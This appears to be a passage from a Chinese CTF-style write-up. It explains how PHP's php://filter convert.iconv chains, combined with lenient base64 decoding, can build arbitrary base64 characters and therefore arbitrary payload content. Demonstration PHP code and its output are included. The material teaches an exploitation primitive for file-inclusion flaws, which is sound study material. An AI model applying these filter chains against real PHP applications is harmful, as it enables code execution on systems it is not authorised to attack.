 ![img](https://nssctf.wdf.ink//img/WDTJ/202302072110112.png)

这里先解释一下为什么不用php://temp，根据base64的宽松性，我们在上面提到过，这个解码过程可以这样理解：

```php
preg_replace('|[^a-z0-9A-Z+/]|s', '', $input);
```

所以当我们调用decode的时候首先会对非法字符进行置空，只剩下C和剩下的字符一起解码，那么我们想要还原这个C，按照base64encode的原理，至少需要4个字符，所以我们这里使用了resource=data://,aaa让C和三个a一起解码。

#### 利用——构造base64表内任意字符

在特性二中我们利用编码转换构造了一个C的base64decode串，那么能否利用`iconv`的特性构造其他字符呢？

答案是可以的，只要构造的字符在base64表内，那么就能通过不停的拼接`iconv`支持的编码，不断的利用base64特性去除非法字符，然后留下特定字符进行构造。

那么我们就可以构造`A-Za-z0-9+/=`任意字符。

既然这样，我们能否在把脑洞开大一点，我们既然能构造base64表中的任意字符，那我们讲这一串字符再进行一次base64解码不就相当于，我们能够构造不受限制的任意字符了么？！！！

#### 构造任意payload的base64形式

根据上面的结论，理论上我们可以对任意payload的base64进行构造，只需要通过编码不断扩展就行，比如下面这一个过程：

```php
<?php
$url = "php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4";
$url_2 = "php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921";
$url_3 = "php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE";

$url .= "|convert.base64-decode";
$var = file_get_contents($url."/resource=data://,aaa");
echo $url."|convert.base64-encode/resource=data://,aaa"."\n";
echo bin2hex($var)."\n";
var_dump(file_get_contents($url."/resource=data://,aaa"));

$url .= "|convert.base64-encode";
$url .= "/resource=data://,aaa";
echo $url."\n";
$var = file_get_contents($url);
echo bin2hex($var)."\n";
var_dump(file_get_contents($url));
php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode/resource=data://,aaa
d5a69a
string(3) "զ�"
php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode/resource=data://,aaa
31616161 string(4) "1aaa"

php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode/resource=data://,aaa
db569a string(3) "�V�"
php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode/resource=data://,aaa
32316161 string(4) "21aa"

```